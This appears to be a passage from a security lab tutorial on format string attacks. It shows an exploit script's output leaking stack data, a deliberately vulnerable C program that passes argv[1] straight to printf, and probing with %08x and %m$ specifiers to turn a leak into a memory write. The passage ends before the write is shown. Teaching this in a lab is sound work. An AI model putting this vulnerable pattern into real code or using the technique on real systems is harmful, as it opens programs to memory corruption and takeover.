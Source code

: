``` {.code}
$ python exploit64.py 
[!] Could not find executable 'basic_format_string' in $PATH, using './basic_format_string' instead
[+] Starting local process './basic_format_string': pid 20785
[*] Switching to interactive mode
                                     7fffffffdcc0  7fffffffdcc01f60229b7ffff7dd18d03125786c6c393425786c6c25786c6c34786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25a6e25
$ 
```
:::

### Extra: Format String Attack {#extraformat_string_attack .sectionedit12}

::: {.level3}
Go to the `04-format-string/` subfolder. In this task you will be
working with a **32-bit binary**.

The goal of this task is to call `my_evil_func` again. This task is also
tutorial based.

``` {.code .C}
int
main(int argc, char *argv[])
{
    printf(argv[1]);
    printf("\nThis is the most useless and insecure program!\n");
    return 0;
}
```
:::

#### Transform Format String Attack to a Memory Write {#transform_format_string_attack_to_a_memory_write}

::: {.level4}
Any string that represents a useful format (e.g. `%d`, `%x` etc.) can be
used to discover the vulnerability.

``` {.code .bash}
$ ./format "%08x %08x %08x %08x"
00000000 f759d4d3 00000002 ffd59bd4
This is the most useless and insecure program!
```

The values starting with 0xf are very likely pointers. Again, we can use
this vulnerability as a information leakage. But we want more.

Another useful format for us is `%m$` followed by any normal format
selector. Which means that the `m`th parameter is used as an input for
the following format. `%10$08x` will print the `10`th paramater with
`%08x`. This allows us to do a precise access of the stack.

Example:
